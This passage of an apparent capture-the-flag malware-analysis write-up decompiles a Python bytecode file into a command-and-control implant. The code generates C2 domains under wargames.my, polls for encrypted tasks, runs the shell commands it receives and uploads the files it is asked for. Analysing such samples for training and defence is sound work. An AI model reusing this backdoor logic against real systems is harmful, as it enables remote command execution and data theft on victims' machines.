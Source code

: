 There's an extracted **__main.pyc__** which looks like it could contain the core program logic.

```sh
$ decompyle3 __main.pyc__
```

Below shows some of the interesting functions:

```py
# decompyle3 version 3.8.0
# Python bytecode 3.7.0 (3394)
# Decompiled from: Python 3.8.10 (default, Jun  2 2021, 10:49:15) 
# [GCC 9.4.0]
# Embedded file name: __main__.pyc
import subprocess, socket, os, platform, base64, json, time
from urllib.parse import urlencode
from urllib.request import Request, urlopen
from itertools import cycle

...

def getData():
    url = 'http://' + getC2() + '/post.php'
    post_fields = {'act': 'get'}
    request = Request(url, (urlencode(post_fields).encode()), headers={'X-ComputerName': getComputerName()})
    return decrypt(json.load(urlopen(request))['data'], 'K719HibejFfel6Jyl4A5TExmIUd2zLF7')

...

def getC2():
    primes = [
     1, 6, 5, 2, 11, 13]
    domain = False
    for nr in range(1, 10):
        domain = 'w'
        for prime in primes:
            domain += getChr(prime * nr)

        domain += '.for.wargames.my'
        nr += 1
        if getIP(domain) != False:
            return domain

def main():
    while True:
        resp = getData()
        data = resp.split(':')
        print(data)
        if data[0] != 'n':
            if data[1] == 'cmd':
                output = run_command(str(data[2]))
                sendData(data[0] + ':' + str(output))
            if data[1] == 'up':
                if os.path.exists(data[2]):
                    uploadFile(data[2])
        time.sleep(10)


if __name__ == '__main__':
    main()
```

